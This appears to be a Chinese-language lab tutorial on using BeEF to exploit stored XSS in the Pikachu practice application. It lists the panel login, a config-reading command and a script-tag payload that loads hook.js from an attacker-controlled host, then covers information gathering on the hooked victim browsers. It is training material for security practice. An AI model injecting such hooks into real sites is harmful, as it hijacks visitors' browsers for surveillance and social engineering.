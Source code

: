 ![image-20240820194636505](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820194636505.png)

#### 登录beef

http://192.168.70.4:3000/ui/panel 

> 用户名`beef` 
>
> 密码`123456`

![image-20240820194753746](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820194753746.png)

##### 查看密码

```bash
cat /etc/beef-xss/config.yaml
```

 修改user和password

![image-20240820194727015](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820194727015.png)

####  pikachu：存储型xss

![image-20240820165006223](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820165006223.png)

 pikachu清空缓存

```bash
<script src="http://192.168.70.4:3000/hook.js"></script>
```

存入 pikachu服务器

#### 访问存储型xss

访问pikachu的存储型XSS页面

#### BeEF页面查看肉鸡 

![image-20240820165453751](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820165453751.png)

### 信息收集和社会工程

#### 通过Beef查看肉机的相关信息

![img](https://image.201068.xyz/assets/23_3.XSS利用/wps16.jpg)

#### 命令的使用

![img](https://image.201068.xyz/assets/23_3.XSS利用/wps17.jpg)

![img](https://image.201068.xyz/assets/23_3.XSS利用/wps18.jpg)
